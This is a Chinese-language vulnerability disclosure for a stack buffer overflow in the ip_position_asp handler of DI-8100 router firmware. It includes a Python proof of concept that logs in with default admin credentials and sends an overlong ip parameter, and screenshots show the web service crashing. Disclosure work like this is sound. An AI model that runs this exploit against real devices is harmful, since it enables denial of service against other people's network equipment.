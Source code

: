 # DI-8100 缓冲区溢出漏洞报告  

## 漏洞描述  

在 DI_8100 的 `ip_position_asp` 函数中，存在缓冲区溢出漏洞。该漏洞可能导致攻击者利用恶意输入，覆盖内存中其他重要数据，从而可能导致设备崩溃。  

## 影响版本  

- DI_8100-16.07.26A1  

## 代码审计

ip_position_asp函数中，ip参数可控，被用sprintf复制给v5造成栈溢出

<img width="493" alt="image" src="https://github.com/user-attachments/assets/367b9da9-9614-4912-8b78-004b842560dc">



## 漏洞利用证明 (POC)  

```plaintext
import requests  
  
session = requests.session()  

login_url = "http://192.168.0.1/login.cgi"  
login_headers = {  
    "User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0",  
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8",  
    "Accept-Language": "en-US,en;q=0.5",  
    "Accept-Encoding": "gzip, deflate, br",  
    "Content-Type": "application/x-www-form-urlencoded",  
    "Origin": "http://192.168.0.1",  
    "Connection": "close",  
    "Referer": "http://192.168.0.1/login.html",  
    "Upgrade-Insecure-Requests": "1"  
}  
login_data = {  
    "user": "admin",  
    "password": "admin"  
}  
 
login_response = session.post(login_url, headers=login_headers, data=login_data)  
  
payload = b'a'*0x400  
command_url = f"http://192.168.0.1/ip_position.asp?ip={payload}"  
command_headers = {  "User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0",  "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8",  "Accept-Language": "en-US,en;q=0.5",  "Accept-Encoding": "gzip, deflate, br",  "Connection": "close",  "Upgrade-Insecure-Requests": "1"  
}  

response = session.get(command_url, headers=command_headers)  
 
print(response.text)
```

##验证结果

<img width="416" alt="image" src="https://github.com/user-attachments/assets/5980fb5b-ce9d-4d14-8932-245ed918e925">

发送poc后，web服务崩溃

<img width="415" alt="image" src="https://github.com/user-attachments/assets/10351687-aab0-4a29-8af7-f70fd55c49be">

